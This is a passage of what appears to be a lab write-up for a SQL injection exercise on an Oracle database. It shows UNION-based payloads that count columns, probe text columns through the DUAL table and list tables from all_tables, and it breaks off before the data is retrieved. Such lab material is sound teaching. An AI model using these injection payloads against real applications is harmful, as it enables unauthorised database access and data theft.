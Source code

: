 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234487924-92fe230b-d01c-4d88-8f40-ece849a2d2e2.png)

## Solution :


> NOTE -  On Oracle databases, every `SELECT` statement must **specify a table to select FROM**. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
>
>There is a built-in table on Oracle called **dual** which you can use for this purpose. 
>
> For example: `UNION SELECT 'abc' FROM dual`

#### Determine number of columns -

Order by 3 throws a error which means there are 2 columns.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

![image](https://user-images.githubusercontent.com/67383098/234492107-acad89e0-9e01-4c0e-aab3-17c4f3ab8c0b.png)

#### Determine column with text data

Here we use the `DUAL` table which is by defaut present in ORACLE databse

Both columns have text data

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'abc','def' FROM DUAL--
```

![image](https://user-images.githubusercontent.com/67383098/234493878-4160908e-fddd-4269-a091-395850b55e44.png)

#### Retreive data from ORACLE db -


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT table_name,NULL FROM all_tables--
```

We get a list of all the tables,

The table which we are interested in is this 





